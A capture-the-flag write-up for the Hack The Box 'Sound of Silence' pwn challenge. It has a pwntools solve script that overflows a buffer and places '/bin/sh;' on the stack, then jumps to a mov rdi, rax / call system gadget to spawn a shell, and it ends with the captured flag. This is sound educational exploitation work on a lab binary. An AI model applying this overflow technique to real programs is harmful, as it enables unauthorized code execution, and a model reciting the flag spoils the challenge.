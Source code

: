 # Sound of Silence

## Solution
So setting /bin/sh to the lower side, such that moving rax => rdi we are able to put the address of /bin/sh; into rdi. The ; is used to stop the shell from reading anymore bytes to our argument since there will be extra bytes at the end.

**Note:** This is not the [intended solution](https://github.com/hackthebox/cyber-apocalypse-2024/blob/main/pwn/%5BMedium%5D%20Sound%20of%20Silence/README.md).

## Solve Script
``` python
from pwn import *
from ctfkit.bp import *

context.binary = 'sound_of_silence'
context.log_level = 'error'
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']

# mov rdi, rax
# call system
main_system = 0x401169

def main():
  proc = get_process()

  # place /bin/sh on the stack, then jump to call system
  payload = b''.join([
    b'A'*32,
    b'/bin/sh;',
    p64(main_system)
  ])

  proc.sendlineafter(b'>> ', payload)
  proc.interactive()

if __name__ == '__main__':
  parse_args()
  main()
```

Flag: HTB{n0_n33d_4_l34k5_wh3n_u_h4v3_5y5t3m}
